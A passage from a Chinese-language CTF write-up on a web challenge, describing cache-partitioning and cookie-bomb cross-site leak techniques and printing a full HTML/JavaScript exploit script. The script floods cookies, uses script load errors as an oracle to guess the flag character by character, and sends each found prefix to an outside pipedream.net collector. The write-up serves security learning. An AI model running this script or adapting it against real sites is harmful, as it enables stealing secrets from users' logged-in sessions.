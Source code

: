 我們可以先 leak 出 charset，速度就會快很多。上面還有些小地方可以再調整的，整體速度應該會再更快。

後來隊友也有貼了另外一篇 writeup：[UIUCTF 2021- yana](https://ctf.zeyu2001.com/2021/uiuctf-2021/yana#this-shouldnt-have-worked)，從中得知 headless chrome 目前是沒有 cache partitioning 的。

我自己實際測了一下，發現到現在還是這樣，所以這題其實不需要借用其他題目，自己架個 ngrok 就可以搞定。

### 預期解

預期解應該就是我上面說過的 cookie bomb，先設置一大堆 cookie，然後利用成功跟失敗的 url 網址不同這個特性，如果成功的話 url 會比較長，request 就會太大，server 就會回錯誤，失敗的話就不會有事。

底下的 script 來自 Strellic，一樣要借用其他題目來跑在 same site 上面：

``` html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
    const $ = document.querySelector.bind(document);
    const sleep = (ms) => new Promise(r => setTimeout(r, ms));
    let i = 0;
    const stuff = async (len=3500) => {
        let name = Math.random();
        $("form").target = name;
        let w = window.open('', name);
        $("#f").value = "_".repeat(len);
        $("#f").name = i++;
        $("form").submit();
        await sleep(100);
    };
    const isError = async (url) => {
        return new Promise(r => {
            let script = document.createElement('script');
            script.src = url;
            script.onload = () => r(false);
            script.onerror = () => r(true);
            document.head.appendChild(script);
        });
    }
    const search = (query) => {
        return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
    };
    const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
    const url = "//en4u1nbmyeahu.x.pipedream.net/";
    let known = "actf{";
    window.onload = async () => {
        navigator.sendBeacon(url + "?load");
        await Promise.all([stuff(), stuff(), stuff(), stuff()]);
        await stuff(1600);
        navigator.sendBeacon(url + "?go");
        while (true) {
            for (let c of alphabet) {
                let query = known + c;
                if (await search(query)) {
                    navigator.sendBeacon(url, query);
                    known += c;
                    break;
                }
            }
        }
    };
</script>
```
